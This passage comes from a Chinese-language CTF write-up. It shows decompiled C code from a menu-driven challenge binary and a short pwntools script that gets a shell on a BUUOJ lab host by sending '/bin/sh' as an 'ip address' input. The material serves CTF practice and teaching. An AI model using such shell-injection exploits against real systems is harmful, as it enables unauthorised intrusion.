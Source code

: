 ```c
        puts("Test done!");
        break;
      case 3:
        puts("Please input what u want to say");
        puts("Your suggest will help us to do better!");
        read(0, v10, 0x3AuLL);
        printf("Dear ctfer,your suggest is :%s", v10);
        break;
      case 4:
        puts("Hey guys,u think too much!");
        break;
      case 5:
        puts("Good Bye!");
        exit(-1);
      default:
        puts("Functional development!");
        break;
    }
  }
}
```

太长了，不太想看，就去nc试了试

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204021004129.png" alt="image-20220331171726757" style="zoom:80%;" />

咦，这么简单就拿了shell？

也可以写一个exp(其实没必要)

```python
from pwn import *

context.log_level = 'debug'
io = remote('node4.buuoj.cn', 27031)

io.sendlineafter('u choose:\n','1')
io.sendlineafter('ip address:\n','/bin/sh')

io.sendlineafter('u choose:\n','1')
io.sendlineafter('ip address:\n','/bin/sh')

io.interactive()
```

水了一题，嘿嘿(￣y▽,￣)╭ 

2022/03/31

### pwn1(互相出的题)

检查保护

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204021008062.png" alt="image-20220402100801008" style="zoom:80%;" />
